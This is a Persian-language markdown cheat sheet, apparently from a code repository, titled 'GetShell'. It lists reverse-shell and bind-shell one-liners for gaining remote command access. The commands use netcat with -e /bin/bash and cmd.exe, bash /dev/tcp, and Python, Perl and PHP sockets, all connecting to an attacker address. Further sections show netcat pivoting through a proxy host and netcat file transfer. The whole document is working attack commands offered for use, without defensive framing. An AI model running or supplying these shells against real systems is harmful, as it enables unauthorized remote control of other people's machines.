 <div dir="rtl">

# 1.GetShell

## 1.1.Linux

> روش اول

```shell
nc 10.0.20.206 4444 -e /bin/bash # Target
nc -lvp 4444: # Attacker(10.0.20.206)
```

> روش دوم

```shell
nc 10.0.20.206 4444 # Target
nc -lvp 4444 -e /bin/bash # Attacker(10.0.20.206)
```

> روش سوم

```shell
bash -i >& /dev/tcp/10.0.20.206/4444 0>&1 # Target
nc -lvp 4444 # Attacker(10.0.20.206)
```

---

### 1.1.1.proxy

<div dir="ltr">

- 10.11.1.16 attack box:
- 10.11.1.96 target host:
- 10.11.1.250 pivot point:

</div>

```shell
# Target[10.11.1.96]
nc -lvp 4444 -e /bin/sh

# Proxy[IP: 10.11.1.250]
nc -v 10.11.1.16 4444 -e "nc -v 10.11.1.96 4444"

# Hacker[IP: 10.11.1.16]
nc -lvp 4444

```

## 1.2.Windows

```
nc.exe  10.0.20.206 4444 -e cmd.exe # Target
nc -lvp 4444 # Attacker(10.0.20.206)
```

---

### 1.2.1.proxy

<div dir="ltr">

- Target[Windows1][10.11.1.198]
- Proxy [Windows2][10.11.1.199]
- Hacker[LinuxKali][10.11.1.16]

</div>

> روش اول

```shell
# Target(Windows1):needs to attach incoming commands on port 4444 to CMD.exe and redirect the output back to Windows Proxy on port 4444
nc -lvp 4444 -e cmd.exe 

# Proxy(Windows2): needs to direct incoming traffic on port 3333 to Windows Target on port 4444 and input traffic from Windows Target must be send to Kali Linux output on port 2222
nc.exe 10.11.1.16 3333 | nc.exe 10.11.1.198 4444 | nc.exe 10.11.1.16 2222

# Hacker(Linux): should be sending commands to Windows Proxy on port 3333 and receive input from Windows Proxy on port 4444
nc -lvp 3333 ; nc -lvp 4444
```

> روش دوم

```shell
# Target(Windows):
nc -lvp 4444 -e cmd.exe

# Proxy(Windows):
nc -v 10.11.1.16 4444 -c "nc -v 10.11.1.198 4444"

# Hacker(Linux):
nc -lvp 4444

```

## 1.3.python

```shell
# Target:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.20.206”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);'

# Attacker(10.0.20.206):
nc -lvp 4444
```

## 1.4.Perl

```shell
# Target:
perl -e ‘use Socket;$i=”10.0.20.206″;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’

# Attacker(10.0.20.206):
nc -lvp 4444
```

## 1.5.PHP

```shell
# Target:
php -r '$sock=fsockopen(“10.0.20.206”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);'

# Attacker(10.0.20.206):
nc -lvp 4444

```

# 2.send Data

> انتقال دیتا از طریق برنامه Netcat

```shell
nc -l -p 55000 > /tmp/FIle.txt # Server1
netcat <IPserver1> 55000 < File.txt # server2
```

</div>